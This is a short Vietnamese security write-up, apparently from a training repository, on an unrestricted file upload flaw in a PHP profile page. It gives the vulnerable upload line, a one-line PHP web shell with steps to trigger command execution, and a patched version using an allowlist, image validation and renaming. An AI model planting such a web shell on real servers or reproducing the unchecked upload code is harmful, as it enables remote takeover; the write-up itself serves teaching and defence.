



# Unrestricted File Upload (RCE)

## 📋 Mô tả

Lỗ hổng tại trang Profile (`profile.php`). Ứng dụng cho phép upload file nhưng không kiểm tra kỹ đuôi file hoặc nội dung file, cho phép upload file `.php`.


## ⚠️ Code Lỗi (Vulnerable)

```php
move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file);
// Không có whitelist extension, không đổi tên file
```

## 🎯 Cách Khai thác (Exploit)

1. Tạo file `shell.php`: `<?php system($_GET['cmd']); ?>`
2. Upload file này lên trang Profile
3. Truy cập đường dẫn file đã up: `uploads/shell.php?cmd=whoami`
4. **Kết quả:** Thực thi lệnh hệ thống (Remote Code Execution)



## 🔒 Cách Vá lỗi (Fix)

```php
// 1. Sử dụng Allowlist (chỉ cho phép jpg, png)
$allowed_extensions = ['jpg', 'jpeg', 'png', 'gif'];
$file_extension = strtolower(pathinfo($_FILES["fileToUpload"]["name"], PATHINFO_EXTENSION));

if (!in_array($file_extension, $allowed_extensions)) {
    die("File type not allowed!");
}

// 2. Kiểm tra MIME type thực tế
if (!getimagesize($_FILES["fileToUpload"]["tmp_name"])) {
    die("File is not a valid image!");
}

// 3. Đổi tên file ngẫu nhiên để tránh thực thi script
$random_name = uniqid() . '.' . $file_extension;
$target_file = "uploads/" . $random_name;

move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file);
```


